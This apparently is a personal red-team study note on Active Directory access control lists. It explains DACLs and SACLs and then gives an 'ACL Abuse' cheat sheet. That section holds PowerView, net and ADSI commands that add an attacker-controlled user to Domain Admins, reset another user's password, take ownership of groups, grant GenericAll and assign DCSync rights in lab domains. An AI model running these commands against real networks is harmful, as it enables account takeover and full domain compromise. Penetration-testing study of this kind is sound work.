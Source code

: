 ## # `Access Control List (ACL)` -

==An Access Control List (ACL) is a list of permissions associated with an object (usually a file, directory, or system resource) that specifies which users or system processes are granted access to that object and what operations they can perform==.

An ACL consists of a list of Access Control Entries (ACEs), each of which contains information about a user or group, a set of permissions, and the type of access (e.g., read, write, execute) that is allowed or denied for that user or group. The ACL is typically stored as part of the metadata of the object it is associated with.

There are two main types of ACLs :

-  <mark style="background: #3D7EFFA6;">Discretionary Access Control Lists (DACLs)</mark> :

1. <mark style="background: #FFB86CA6;">Purpose</mark> : DACLs are primarily used to define discretionary access control for an object. "Discretionary" means that the owner of the object or an administrator can exercise discretion in configuring the ACL to grant or deny permissions.

2. <mark style="background: #D2B3FFA6;">Components</mark> : 
	
    -  ==Access Control Entries (ACEs)== : These are the individual entries within the DACL. Each ACE specifies a user or group, a set of permissions (e.g., read, write, execute), and whether access is allowed or denied.

3. <mark style="background: #E632B3A6;">Modification Rights</mark> : Owners and administrators typically have the right to modify the DACL. This allows them to grant or revoke permissions for specific users or groups. Users who are not the owner or administrators typically can't modify the DACL.

4. <mark style="background: #07E997A6;">Example</mark> : Consider a file with a DACL. The DACL might contain ACEs that grant read access to a specific user, write access to a group, and deny access to another user. The owner of the file or an administrator can edit the DACL to modify these permissions.

- <mark style="background: #3D7EFFA6;">System Access Control Lists (SACLs)</mark> :

1. <mark style="background: #FFB86CA6;">Purpose</mark> : SACLs are used for system access control and auditing. They specify which security events related to an object should be audited, such as successful or failed access attempts.

2. <mark style="background: #D2B3FFA6;">Components</mark> :
	
    -  ==Auditing Entries (ACEs)== : Like DACLs, SACLs contain ACEs, but these ACEs specify auditing settings rather than permissions. Each ACE in the SACL indicates which actions should be audited (e.g., read, write), which users or groups to audit, and whether to audit successful or failed attempts.

3. <mark style="background: #E632B3A6;">Auditing and Logging</mark> : When SACLs are configured, the operating system logs security events based on the specified criteria. These logs can then be reviewed by administrators to monitor system security and identify security breaches or unauthorized access attempts.

4. <mark style="background: #07E997A6;">Example</mark> : An administrator might configure the SACL of a sensitive file to log all successful and failed access attempts by a particular user or group. This allows the administrator to monitor who is trying to access the file and whether they succeed or fail.

In summary, DACLs control who can access an object and what actions they can perform, while SACLs are used to audit and log security events related to that object.

## # `ACL Abuse` -


![[Pasted image 20230914005322.png]]

Some of the Active Directory object permissions and types that we as attackers are interested in :

- <mark style="background: #FFB86CA6;">GenericAll</mark> - full rights to the object (add users to a group or reset user's password)

- <mark style="background: #D2B3FFA6;">GenericWrite</mark> - update object's attributes (i.e logon script)

- <mark style="background: #E632B3A6;">WriteOwner</mark> - change object owner to attacker controlled user take over the object

- <mark style="background: #07E997A6;">WriteDACL</mark> - modify object's ACEs and give attacker full control right over the object

- <mark style="background: #FFB86CA6;">AllExtendedRights</mark> - ability to add user to a group or reset password

- <mark style="background: #D2B3FFA6;">ForceChangePassword</mark> - ability to change user's password

- <mark style="background: #E632B3A6;">Self (Self-Membership)</mark> - ability to add yourself to a group

---

#### # <mark style="background: #3D7EFFA6;">Checking for ACL</mark> -

```powershell
Import-Module PowerView.ps1
Invoke-ACLScanner –Domain enterprise.corp
```

#### # <mark style="background: #3D7EFFA6;">GenericAll on User</mark> -

Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate` :

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

![[Pasted image 20230914165135.png]]

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account.

We can reset user's `delegate` password without knowing the current password

#### # <mark style="background: #3D7EFFA6;">GenericAll on Group</mark> :

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName` :

```powershell
Get-NetGroup "domain admins" -FullData
```

![[Pasted image 20230914165646.png]]

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

![[Pasted image 20230914165824.png]]

We can see that our attacking user `spotless` has `GenericAll` rights once again.

Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group :

```powershell
net group "domain admins" spotless /add /domain
```

Same could be achieved with Active Directory or PowerSploit module :

```powershell
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

#### # <mark style="background: #3D7EFFA6;">GenericAll / GenericWrite / Write on Computer</mark> :

If you have these privileges on a Computer object, you can pull `Kerberos Resource-based Constrained Delegation`.

#### # <mark style="background: #3D7EFFA6;">ForceChangePassword</mark> :

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password :

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![[Pasted image 20230914171536.png]]

You can set new password like this :

```powershell
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

#### # <mark style="background: #3D7EFFA6;">WriteOwner on Group</mark> :

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All` 

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![[Pasted image 20230914172325.png]]

We can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group :

```powershell
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

#### # <mark style="background: #3D7EFFA6;">WriteDACL + WriteOwner</mark> :

If you are owner of a group :

[Powershell]
```powershell
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

![[Pasted image 20230914172955.png]]

And you have a `WriteDACL` on that AD object :

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=test,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![[Pasted image 20230914173146.png]]

you can give yourself `GenericAll` privileges with a sprinkle of ADSI sorcery :

```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object :

![[Pasted image 20230914173559.png]]

This effectively means that you can now add new users to the group.

#### # <mark style="background: #3D7EFFA6;">Granting Rights</mark> :

```powershell
Add-ObjectAcl –TargetDomain enterprise.corp –PrincipalIdentity student1 -Rights All -Verbose
```

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```

